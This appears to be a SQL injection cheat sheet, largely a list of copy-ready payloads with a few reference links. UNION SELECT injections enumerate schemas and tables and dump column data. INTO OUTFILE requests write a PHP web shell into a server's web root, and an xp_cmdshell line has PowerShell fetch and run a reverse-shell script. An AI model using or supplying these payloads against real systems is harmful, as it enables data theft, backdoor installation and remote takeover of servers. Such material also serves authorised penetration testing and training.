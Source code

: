 Check out:
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
https://www.exploit-db.com/papers/13650
[https://www.imperva.com/learn/application-security/sql-injection-sqli/](https://www.imperva.com/learn/application-security/sql-injection-sqli/)
Retrieve database version:
```SQL
UNION ALL SELECT NULL, version() -- -
```
List the databases:
```SQL
UNION ALL SELECT NULL, concat(schema_name) FROM information_schema.schemata -- -
```
Retrieve table names:
```SQL
UNION ALL SELECT NULL, concat(table_name) FROM information_schema.TABLES WHERE table_schema=database() -- -
```
Retrieve column names:
```SQL
UNION ALL SELECT NULL, concat(column_name) FROM information_schema.COLUMNS WHERE table_schema=database() -- -
```
Retrieve data:
```SQL
UNION ALL SELECT NULL, (0x28, column1, 0x3a, column2, 0x29) FROM table1 -- -
```
Retrieve data from different database:
```SQL
UNION ALL SELECT NULL, (0x28, column1, 0x3a, column2, 0x29) FROM databaseName.table1 -- -
```
Using INTO OUTFILE to create a malicious PHP file:
```SQL
http://$TARGET/debug.php?id=1 union all select 1,2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```
```SQL
http://$TARGET/debug.php?id=1 UNION SELECT '<?php echo shell_exec($_GET[\'cmd\']); ?>', null INTO OUTFILE '/var/www/cmd.php' #
```
Windows box cmdshell trick:
```SQL
xp_cmdshell "powershell -IEX(New-Object Net.WebClient).DownloadString('http://$TARGET/Invoke-PowerShellTcp.ps1')"
```
